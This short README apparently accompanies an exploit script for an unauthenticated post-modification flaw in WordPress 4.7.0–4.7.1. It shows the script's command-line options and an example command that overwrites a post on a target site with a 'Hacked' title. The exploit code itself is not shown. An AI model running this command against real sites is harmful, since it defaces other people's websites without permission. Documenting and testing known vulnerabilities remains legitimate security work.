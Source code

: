 # WordPress 4.7.0-4.7.1 unauthenticated post modification

```
usage: 4.7.0-4.7.1-unauthenticated-post-modification.py [-h] [--url URL]
                                                        [--id ID] [--test]
                                                        [--payload P]
                                                        [--format F] [-v] [-q]

optional arguments:
  -h, --help         show this help message and exit
  --url URL, -u URL  Wordpress base url, including URI scheme
  --id ID, -i ID     Article id
  --test, -t         Test without breaking things
  --payload P, -p P  Formatted payload
  --format F, -f F   Format (POST, JSON)
  -v                 Increase output verbosity
  -q                 Make the program quieter
```
  
Example: `python 4.7.0-4.7.1-unauthenticated-post-modification.py --url https://monsite.com --id 1 --payload "title=Hacked&content=please update your wp"`